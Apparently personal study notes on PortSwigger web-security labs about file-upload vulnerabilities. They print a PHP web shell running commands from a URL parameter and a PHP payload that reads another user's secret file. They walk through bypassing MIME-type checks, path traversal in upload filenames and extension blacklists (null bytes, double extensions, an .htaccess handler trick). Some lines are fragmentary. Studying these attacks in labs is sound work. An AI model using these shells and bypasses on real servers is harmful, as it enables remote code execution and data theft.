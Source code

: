 - look for any upload functionality 
- `<?php echo system($_GET['command']); ?>`

# Lab: Remote code execution via web shell upload
- upload a web shell and tdaaa 


# Lab: Web shell upload via Content-Type restriction bypass
1. Log in and upload an image as your avatar, then go back to your account page.
2. In Burp, go to **Proxy > HTTP history** and notice that your image was fetched using a `GET` request to `/files/avatars/<YOUR-IMAGE>`. Send this request to Burp Repeater.
3. On your system, create a file called `exploit.php`, containing a script for fetching the contents of Carlos's secret. For example:
    
    `<?php echo file_get_contents('/home/carlos/secret'); ?>`
4. Attempt to upload this script as your avatar. The response indicates that you are only allowed to upload files with the MIME type `image/jpeg` or `image/png`.
5. In Burp, go back to the proxy history and find the `POST /my-account/avatar` request that was used to submit the file upload. Send this to Burp Repeater.
6. In Burp Repeater, go to the tab containing the `POST /my-account/avatar` request. In the part of the message body related to your file, change the specified `Content-Type` to `image/jpeg`.
7. Send the request. Observe that the response indicates that your file was successfully uploaded.
8. Switch to the other Repeater tab containing the `GET /files/avatars/<YOUR-IMAGE>` request. In the path, replace the name of your image file with `exploit.php` and send the request. Observe that Carlos's secret was returned in the response.
9. Submit the secret to solve the lab.


# Lab: Web shell upload via path traversa
- In Burp Repeater, go to the tab containing the `POST /my-account/avatar` request and find the part of the request body that relates to your PHP file. In the `Content-Disposition` header, change the `filename` to include a [directory traversal](https://portswigger.net/web-security/file-path-traversal) sequence:
    
    `Content-Disposition: form-data; name="avatar"; filename="../exploit.php"`
- Send the request. Notice that the response says `The file avatars/exploit.php has been uploaded.` This suggests that the server is stripping the directory traversal sequence from the file name.
- Obfuscate the directory traversal sequence by URL encoding the forward slash (`/`) character, resulting in:
    
    `filename="..%2fexploit.php"`
- Send the request and observe that the message now says `The file avatars/../exploit.php has been uploaded.` This indicates that the file name is being URL decoded by the server.
- In the browser, go back to your account page.
- In Burp's proxy history, find the `GET /files/avatars/..%2fexploit.php` request. Observe that Carlos's secret was returned in the response. This indicates that the file was uploaded to a higher directory in the filesystem hierarchy (`/files`), and subsequently executed by the server. Note that this means you can also request this file using `GET /files/exploit.php`.
- Submit the secret to solve the lab.



# Lab: Web shell upload via extension blacklist bypass






















- try a simple shell 
- try to change the **Content-Type** from application/x-php to image/png
- try to use null byte **gg.php%00.jpg**
- try to use .php2, .php3 , .pHp, gg.php.jpg etc... 
- if uploaded but no execution privs 
	- try upload to another folder that u can access 
- if php files are blacklistes ? 
	 - upload first a conf file that allows u to execute php files 
		- upload .htaccess file that have the following contnet `AddType application/x-httpd-php ".test"`
		- this means if u upload a .test file, it will be treated as .php file



- Provide multiple extensions. Depending on the algorithm used to parse the filename, the following file may be interpreted as either a PHP file or JPG image: `exploit.php.jpg`
- Add trailing characters. Some components will strip or ignore trailing whitespaces, dots, and suchlike: `exploit.php.`
- Try using the URL encoding (or double URL encoding) for dots, forward slashes, and backward slashes. If the value isn't decoded when validating the file extension, but is later decoded server-side, this can also allow you to upload malicious files that would otherwise be blocked: `exploit%2Ephp`
- Add semicolons or URL-encoded null byte characters before the file extension. If validation is written in a high-level language like PHP or Java, but the server processes the file using lower-level functions in C/C++, for example, this can cause discrepancies in what is treated as the end of the filename: `exploit.asp;.jpg` or `exploit.asp%00.jpg`
- Try using multibyte unicode characters, which may be converted to null bytes and dots after unicode conversion or normalization. Sequences like `xC0 x2E`, `xC4 xAE` or `xC0 xAE` may be translated to `x2E` if the filename parsed as a UTF-8 string, but then converted to ASCII characters before being used in a path.